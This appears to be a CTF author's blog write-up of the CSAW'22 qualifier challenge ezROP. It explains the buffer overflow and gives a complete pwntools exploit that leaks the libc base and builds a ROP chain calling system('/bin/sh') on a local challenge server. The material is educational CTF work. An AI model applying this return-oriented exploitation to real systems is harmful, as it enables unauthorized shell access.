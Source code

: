 ```yaml
---
title: "CSAW'22 Qual: ezROP, how2pwn, unsafe-linking"
date: 2022-09-14 13:29:21
tags: 
layout: default
---
```


# Prologue

Great honor to be one of CSAW developers and I wrote three challenges for CSAW qualification round.

You can get the attachment and source code from [Osiris Lab][1]

Cuz CSAW is an entry-level CTF, we would have lots of players are very new to cybersecurity. I try to make 
my pwn challenges interesting and educational.


# ezROP

This is an easy ROP/BOF challenge. I write this challenge for people have little experience of ROP/BOF. 

The basic idea is I write the program in a reverse way. For people who don't have much pwn backgroun,  
they would read the source code and think "what the hell is this" or "I don't believe we can compile it successfully".
After debugging and learning ROP, they can figure out that the way how the program works and there is a buffer overflow 
vulnerability. So they can use the gadgets to build their attack-rop-chain.



The solution is similar to other ROP challenge we should 
- Leak the libc base address
- Call `system('/bin/sh')`

```py
from pwn import *
# p = process("./ezROP")
p = remote("0.0.0.0",9999)
context.arch='amd64'
# gdb.attach(p,'b *0x401533')
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
sla 	= lambda a,b: 	p.sendlineafter(a,b)
rdi = 0x00000000004015a3
rsi = rdi-2
got = 0x000000000403fe8
plt = 0x4010a0
main = 0x40150b

sla("?\n",b"\0"*120+flat([rdi,got,plt,main,]))
p.readuntil("!\n")
base = u64(p.readline()[:-1]+b'\0\0') - (0x7ffff7e4c420-0x00007ffff7dc8000)
log.warning(hex(base))

ret = rdi+1
system = base +0x52290
sla("?\n",b"\0"*120+flat([rdi,base+0x1b45bd,ret,system]))

p.interactive()
```
More detailed Wp from players:
- @lightStack: https://lightstack.ml/posts/csaw22_ezrop/

[1]: https://github.com/osirislab